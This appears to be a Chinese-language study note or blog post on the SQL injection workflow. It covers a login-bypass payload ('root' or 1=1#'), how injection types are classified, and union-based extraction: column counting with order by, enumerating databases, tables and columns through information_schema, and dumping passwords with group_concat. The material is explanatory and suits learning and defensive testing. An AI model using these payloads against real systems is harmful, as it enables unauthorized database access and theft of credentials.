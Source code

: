 ```yaml
---
title: '''sql_inject_Process'''
date: 2018-12-28 20:21:52
tags: sql注入流程
---
```


> 留言板安全问题

`用户名root ' or 1 = 1#`
	`密码1`
	-->万能密码注入



> 原理：

​	SELECT * FROM users WHERE username='$user' AND passwd ='".md5($pwd).被变成

select * from root username = 'root ' or 1=1 # 'and passwd =''

#后面被注释了   1=1导致查询语句总为真 衡真的原理

判断能否注入：
	用户能控制输入的内容
	web应用能把用户输入的内容带到数据库中
	

> 测试是否存在注入

​	
分类：
	根据输入内容：	字符型注入、数字型注入
	根据上面两种类型可以加括号和字符能使用双引号和单引号，分为：以下几种
	

​	1.select * from users where id=1 纯数字型
		2.select * from users where id='1'只加单引号
		3.select * from users where id="1" 只加双引号
		4.select * from users where (id=1)数字加括号
		5.select * from users where (id='1')单引号加括号
		6.select * from users where (id="1")双引号加括号



> 快速注入流程：-->脑图

​	

> 步骤1.先加’看看会不会有变化，

​	如果变化了-->可能是纯数字、只有单引号、单引号加括号、数字加括号
	

如果不出现变化-->双引号、

步骤2.再加‘%23页面会回复正常

步骤3.依次排除字符的类型

步骤4.再在后面加入 1、0



> 注入可以做哪些事：

获取数据-->
	修改数据
	上传文件
	读取文件

> mysql常用   

​	limit 0,1 从0开始取1条记录-->限制输出结果的行数

select user()	显示当前用户
	select database()显示当前使用的数据库
	select version()显示版本
	select group_concat();连接字符串
		
​	select 0x313233会把16进制-->正常数字  0x7e -->~

联合查询 union select 1，2，3，4，5
	需要列数一致，如果不清楚列数，可以用order by来查询

order by 通过指定列数进行排序-->用来判断有多少列

distinct 去重

> 数据库目录知识：	*****

​	information_schema库-->schemata表 存放所有数据库信息，是公用数据库，任何用户都可以访问

information_schema.schemata   表存放所有数据库名字

information_schema.TABLES  表存放所有表的名字

information_schema.COLUMN  表存放所有字段名字

column_name	字段名
	table_schema	库名字段
	table_name   表名字段



查询数据库中有那些库
select schema_name from information_schema.SCHEMATA

查询数据库中有那些表
select table_name from information_schema.TABLES

查询数据库中test库中有哪些表
select table_name from information_schema.TABLES where table_schema = 'test'  // test 可以写成 0x7a73

查询数据库中有那些字段
select column_name from information_schema.COLUMNS

查询数据库中test库中user表有哪些字段
select column_name from information_schema.COLUMNS where table_schema = 'test' and table_name = 'user'	

有了库名，表名，列名，然后-->

猜解内容
	select pass from test.user;
	
​	

> 总体流程 

​	1~用‘尝试有没有注入--->可能有注入

2~用%23 报错恢复-->数字型注入

3~用order by 1 2 3 4-->测有多少列

4~用union select 1，2，3进行输出，发现页面不显示-->显示不下

5~更改显示的内容 -->用limit 1，1或者改条件为id =0

6~找到1，2，3中显示的数字，改为想要查询的语句

7.开始查询数据库-->把查询数据库语句替换数字，发现只能显示一行，-->尝试在sql语句两侧加入（），还是不行-->加入group_concat，发现正常

理解：直接放入sql语句不符合代码规范，必须括起来；加入group_concat恢复正常，是因为查询所有的库名字时返回的结果是多行，而union select 的第三位是只能写单行内容！！！，所以用group_concat进行组合成一行	

